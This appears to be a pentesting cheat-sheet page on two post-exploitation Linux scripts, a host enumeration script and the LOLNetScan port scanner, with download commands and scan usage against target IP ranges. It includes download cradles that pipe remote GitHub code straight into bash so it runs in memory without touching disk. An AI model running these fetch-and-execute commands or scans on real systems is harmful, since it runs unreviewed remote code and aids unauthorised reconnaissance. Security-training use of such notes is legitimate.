 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - enumeration-and-discovery
  - networking
  - offensive-tools
  - linux
---
```

# Scripts

## 01 - Host enumeration

### 1.1 - Download Cradle

```
$ wget https://raw.githubusercontent.com/IvanGlinkin/Host-enumeration/refs/heads/master/host-enum.sh

$ curl -o host-enum.sh https://raw.githubusercontent.com/IvanGlinkin/Host-enumeration/refs/heads/master/host-enum.sh
```

### 1.2 - Usage

```
$ chmod +x host-enum.sh

$ ./host-enum.sh <IP> | tee output.txt
```

## 02 - LOLNetScan

### 2.1 - Download Cradle

Execute the scanner on memory without touching the disk.

```
$ bash <(wget -qO- https://raw.githubusercontent.com/ousbaailyas/lolnetscan/master/lolnetscan) -host <target_IP>

$ bash <(curl -sSL https://raw.githubusercontent.com/ousbaailyas/lolnetscan/master/lolnetscan) -host <target_IP>
```

Drop the port scanner on disk.

```
$ wget https://raw.githubusercontent.com/ousbaailyas/lolnetscan/master/lolnetscan

$ curl -o lolnetscan https://raw.githubusercontent.com/ousbaailyas/lolnetscan/master/lolnetscan
```

### 2.2 - Usage

Scan a list of live targets.

```
$ chmod 755 lolnetscan

$ ./lolnetscan -host <target_IP_1>,<target_IP_n>
```

Scan a range of targets.

```
$ ./lolnetscan -host <start_IP>-<end_IP>

$ ./lolnetscan -host 192.168.0.1-192.168.0.5
```

---
## References

- [IvanGlinkin: Host enumeration](https://github.com/IvanGlinkin/Host-enumeration)

- [snakeeater0x01: lolnetscan](https://github.com/snakeeater0x01/lolnetscan/blob/master/lolnetscan)